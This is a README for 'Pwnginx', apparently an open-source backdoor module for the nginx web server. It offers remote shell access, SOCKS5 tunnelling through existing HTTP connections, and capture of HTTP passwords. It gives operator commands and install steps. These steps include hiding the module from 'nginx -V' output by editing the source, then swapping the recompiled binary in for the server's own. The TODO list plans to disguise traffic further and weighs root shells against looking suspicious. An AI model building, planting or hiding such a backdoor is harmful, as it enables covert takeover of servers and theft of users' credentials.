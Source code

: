 #[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port] [password]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [password] [socks5ip] [socks5port]


###Features:
    
* Remote shell access

* Socks5 tunneling via existing http connection

* Http password sniffing & logging

###INSTALL:

* Compile the client:

    $ cd client;make

* Edit source to hidden configure arguments:

    $ vim src/core/nginx.c
    
    Modify the `configure arguments` line into: `configure arguments: --prefix=/opt/nginx\n");` (original configure arguments shown in the result of `nginx -V`)

* Recompile nginx:

    $ cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module && make (There is no need to run `make install`)

    $ sudo cp -f objs/nginx /path/to/nginx/sbin/nginx

* Restart nginx

    $ sudo killall nginx && /path/to/nginx/sbin/nginx


###TODO:

* Pack communication traffic into HTTP protocol

* Full pty support

* Shell with root privilege(? There must be another stand-alone 'nginx: master process' running under root to support this function. Maybe that's too suspicious. Being considered.)


yum -y install {GeoIP,gd,gperftools,libxml2,libxslt,openssl,pcre,perl,zlib}-devel perl-ExtUtils-Embed redhat-rpm-config
